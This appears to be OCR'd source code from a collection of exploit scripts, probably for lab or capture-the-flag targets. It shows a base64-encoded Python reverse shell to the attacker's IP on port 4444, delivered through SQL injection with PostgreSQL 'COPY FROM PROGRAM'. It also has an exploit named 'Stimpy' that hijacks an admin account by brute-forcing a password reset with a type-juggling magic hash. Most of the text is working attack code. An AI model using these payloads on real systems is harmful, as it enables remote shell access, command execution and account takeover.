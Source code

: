 ```python
# step 11: craft the reverse shell payload and encode it in base64
b64payload = base64.b64encode(f'''
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("{my_ip}", 4444));  # Connect to my IP
os.dup2(s.fileno(), 0);  # Redirect stdin
os.dup2(s.fileno(), 1);  # Redirect stdout
os.dup2(s.fileno(), 2);  # Redirect stderr
pty.spawn("/bin/bash")  # Spawn a bash shell
'''.encode('utf-8'))

# step 12: exploit SQL injection vulnerability to run the reverse shell
session.get(target + "/admin/users/category?id=1; COPY(SELECT convert_from(decode('" + b64payload.decode('utf-8') + "', 'base64'), 'utf-8')) to '/tmp/shell.py'; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'python3 /tmp/shell.py';")
```

### exploit: Stimpy

goal: gain admin access + RCE using type juggling and arbitrary file upload.

```python
import requests
import re
import time
import sys

# step 1: set up my IP and target URL
my_ip = sys.argv[1]  # IP
target = "http://<IP>"     # target URL

# step 2: admin account details
email = "admin@stimpy.tld"  # admin email to target
password = 'L0r3m1p$uM'   # new admin password to set
ts = int(time.time())       # generate timestamp for the reset link

# step 3: initialize session and open target's homepage
session = requests.Session()
session.get(target)

# step 4: function to request a password reset link
def ResetLink():
    session.post(target + '/forgot', data={'email': email})

# step 5: function to test if reset token is valid using type juggling
def Test():
    resp = session.get(f'{target}/reset/1/{ts}/0e123456')  # type juggling with magic hash
    if "Reset your password below" in resp.text:
        return True  # success, token accepted
    else:
        return False  # try again

# step 6: brute force magic hash and change admin password
while True:
    ResetLink()  # request password reset link
    if Test():  # check if reset link is accepted
        session.post(f'{target}/reset/1/{ts}/0e123456', data={'password': password})  # reset password
        print('hell yeah brother!')  # success message
        break

# step 7: log in as admin using the new password
session.post(target + '/login', data={'email': email, 'password': password})

```